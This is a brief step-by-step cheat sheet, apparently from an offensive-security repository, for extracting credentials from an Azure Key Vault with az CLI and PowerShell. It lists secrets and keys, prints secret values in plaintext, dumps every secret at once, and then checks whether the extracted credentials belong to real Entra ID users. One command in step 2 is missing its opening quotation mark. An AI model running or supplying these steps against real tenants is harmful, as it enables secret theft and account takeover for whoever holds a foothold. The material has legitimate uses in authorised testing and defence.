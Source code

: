 # Azure Key Vault Credential Extraction

#### 1)  Set variables

    $VaultName = "VAULT_NAME"

#### 2)  Set the current Azure subscription

    $SubscriptionID = SUBSCRIPTION_ID"
    az account set --subscription $SubscriptionID

#### 3)  List and store the secrets

    $secretsJson = az keyvault secret list --vault-name $VaultName -o json
    $secrets = $secretsJson | ConvertFrom-Json

#### 4)  List and store the keys

    $keysJson = az keyvault key list --vault-name $VaultName -o json
    $keys = $keysJson | ConvertFrom-Json

#### 5)  Output the secrets

    Write-Host "Secrets in vault $VaultName"
    foreach ($secret in $secrets) {
        Write-Host $secret.id
    }

#### 6)  Output the keys

    Write-Host "Keys in vault $VaultName"
    foreach ($key in $keys) {
        Write-Host $key.id
    }

#### 7) Set variables

    $VaultName = "VAULT_NAME"
    $SecretNames = @("NAME_1", "NAME_2", "NAME_3")

#### 8) Set the current Azure subscription

    $SubscriptionID = "SUBSCRIPTION_ID"
    az account set --subscription $SubscriptionID

#### 9) Retrieve and output the secret values

    Write-Host "Secret Values from vault $VaultName"
    foreach ($SecretName in $SecretNames) {
        $secretValueJson = az keyvault secret show --name $SecretName --vault-name $VaultName -o json
        $secretValue = ($secretValueJson | ConvertFrom-Json).value
        Write-Host "$SecretName - $secretValue"
    }

#### 10) Check if any of these extracted credentials are valid existing Entra ID users

    az ad user list --query "[?givenName=='NAME_1' || givenName=='NAME_2' || givenName=='NAME_3'].{Name:displayName, UPN:userPrincipalName, JobTitle:jobTitle}" -o table

#### 11) Get all secrets from key vault

    Get-AzKeyVaultSecret -VaultName $VaultName | ForEach-Object { Get-AzKeyVaultSecret -VaultName $VaultName -Name $_.Name -asplaintext }
